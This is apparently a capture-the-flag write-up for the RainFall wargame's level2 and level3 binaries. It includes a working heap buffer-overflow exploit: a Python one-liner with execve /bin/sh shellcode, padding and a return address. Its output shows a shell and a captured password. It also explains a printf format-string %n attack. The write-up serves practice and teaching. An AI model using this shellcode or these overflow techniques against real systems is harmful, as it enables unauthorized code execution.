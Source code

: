 Heap-based Shellcode Injection + Buffer-Overflow + Runtime Instruction Pointer Overwriting

Use of vulnerable function `gets()`, allocation on the heap of malicious shellcode.

## Details of level2

Program allocates a string on the heap with `strdup()` by reading stdin with `gets()`.

We can predict where the heap starts after the call to `strdup()` thanks to the `info proc mappings` tool of gdb.

We just need to get offset of buffer with pattern generator. (offset of 80 bytes)

Choose working shellcode from Database (28 bytes long), subtract from buffer offset the length of the shellcode to get the length of the padding (80 - 28 = 52)

Send [`shellcode + padding + (starting address of the heap)+8`] to `strdup()` to jump to the shellcode at runtime.

```shell-session
level2@RainFall:~$
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'thisisjustbutapaddingtoguaranteethatwehaveanoverflow' + '\x08\xa0\x04\x08'"; cat -) | ./level2
1Ph//shh/bin�°
              ̀1@̀thisisjustbutapaddingtoguaranteethveanoverflow
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

# level3
## Type of exploit

Format String Attack: no variadic argument to printf + no sanitization of user-defined conversion string fed to `printf()` allows to print and edit values in memory.

Lack of ASLR makes it easy to find address of a given symbol, namely `m()`.

## Details of level3

Binary naturally opens a shell but an `if` statement prevent us from going there.

There is a comparison between a global symbol (`m()`) and a hardcoded value (`64`). `m()` is outside the control flow, so no register injection here.

Program takes input and gives it to `printf()`, with no other argument.

We can use printf features to edit a given address with an arbitrary value:
- option `$` that is used with an integer i to access the ith argument positionned after `printf()` (`%4$s` will apply `%s` to argument 4)
- type conversion `%n` that inserts an integer corresponding to the number of bytes written so far in the type conversion format. (`123%2$n` will insert 3 in 2nd argument to `printf()`)
